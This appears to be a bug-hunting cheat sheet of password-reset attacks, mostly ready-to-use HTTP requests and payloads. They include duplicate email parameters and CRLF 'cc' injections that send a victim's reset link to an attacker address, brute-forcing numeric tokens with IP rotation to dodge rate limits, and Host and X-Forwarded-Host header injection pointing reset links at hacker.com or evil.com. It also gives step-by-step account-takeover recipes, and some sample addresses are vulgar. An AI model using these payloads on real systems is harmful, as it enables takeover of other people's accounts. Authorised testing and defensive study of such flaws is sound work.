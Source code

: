 ```yaml
---
title: Forgot Password Cheat Sheet
description: webvun,hacking
author: samidunimsara
date: 2023-09-18 11:33:00 +0800
categories: [hackingweb, web]
tags: [web]

---
```


# Password Reset Functionalities

- 1.) **Include your mail as a second parameter (you 
      might receive the reset link):**
    
    ```http
    POST /reset
    email=victim@tld.xyz&email=hacker@tld.xyz
    ```
    
- 2) Brute force reset token if it is numeric. You can use IP Rotator on Burpsuite
    
    ```http
    to bypass rate limit in case it's IP based :
    
    POST /reset
    email=victim@tld.xyz&code=$BRUTE$
    ```
    
- 3) Try to use your reset token on target's account
    
    ```http
    POST /reset
    email=victim@tld.xyz&code=$YOUR-TOKEN$
    ```
    
- 4) Host header injection; change website.com to hacker.com (victim might receive the reset link with)
    
    ```http
    POST /reset
    Host: hacker.com[ … … . ].
    ```
    
- Try to figure out how the tokens are generated. Exemples can be
    
    ```bash
    -Generated based on TimeStamp-
    -Generated based on the ID of the user
    -Generated based on the email of the user
    ```
    
- ) Try
    
    ```bash
    .user@email.com&bcc:attacker@email.com 
    
    .user@email.com,attacker@email.com.
    
    .victimspussy@ymail.com:attackersdick@ymail.com
    
    .{"email":["victim@gmail.com","attacker@gmail.com"]}
    
    .email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
    
    {"email":["victim12345@gmail.com","attacker12345@gmail.com"    ]}
    
    POST /reset
    email=victim@mail.com%0a%0dcc:hacker@mail.com
    
    no gmail.com No domain:email=victim   
    
    {"email": ["victim@xyz.tld","hacker@xyz.tld"]}
    
    Carbon copy:
    email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
    
    ```
    
- When requesting a new password reset link try to inject some html tags in the host header,
    
    ```bash
    Example:-Host: http://redacted.com?><a href=http://evil.com
    ```
    
- Also look into response body, sometimes passwd reset token leaks there.
- In JSON array
    
    ```bash
    {"email":["victim@mail.tld","atracker@mail.tld"]}
    ```
    
- reset password so that you get a reset OTP in your email
    - Don't use it.
    - Sign into your account and change your email address.
    - Once it's changed, try using the old OTP.
    - if the link still works then users can't rescue their account if their email is compromised.
- x-forwarded-host: {{7*7}} and X-Forwarded-For: yu will receive 49 in yur email if the application was infected ;)
- ATO
    
    
    ```bash
    1.Go to reset password
    2.Enter your Email and intercept request
    3.change Host+Referrer+originWith your server eg:burp collob..*
    4.Victim will receive  yourserver/token=$
    5.When He Click on Link you will got token
    
    ```
    
- Another ATO
    
    ```bash
    1.Generated reset password link,
    2.Gave password, and intercepted the request.
    3.Change my email with victim email and victim pass got changed
    ```
    
- Leakage of the password reset token in the referer header:
    
    ```bash
     1.In the password reset page after:
     2.Click on any social media handle or any 3rd party sites link & intercept the request
     3.If the reset token is leaked in refer header, Just report it! H1 report 751581 ``
    ```
    
    [https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/password_reset.md)
    
- Password Reset Token Leakage
    
    ```bash
    
    Steps:    
    01.Send a password reset request 
    02.copy your reset page link from mail  and paste in another tab and make burp intercept on.
    03.after clinck link open facebook twiterr .random web site  
    https://www.youtube.com/watch?v=X3YxJFiTa6c&t=2s
    04. search reset link in puep historry
    05.if you find similiar token that is in reset link with other domain its vunarable
    ```
    
    - It was just simple one by response manipulation. Change the body from "false" to "true
- Host Header 💉
    
    ```bash
    1.Go to password reset funtion.
    2.Enter email and intercept the request and change like this    Host:http://target.com    Host:burp collbr    Host: http://attacker.com/www.target.com    Host: http://attacker.com&www.target.com
    4.if you found http://attacker.com in reset link.. Report it
    ```
    
- Password reset link not expiring
    - After reset password using reset link try another time using same link
- Dos via enter long password
    
    ```bash
    1.enter long password 1000 caracter if response 500 its dos
    ```
  
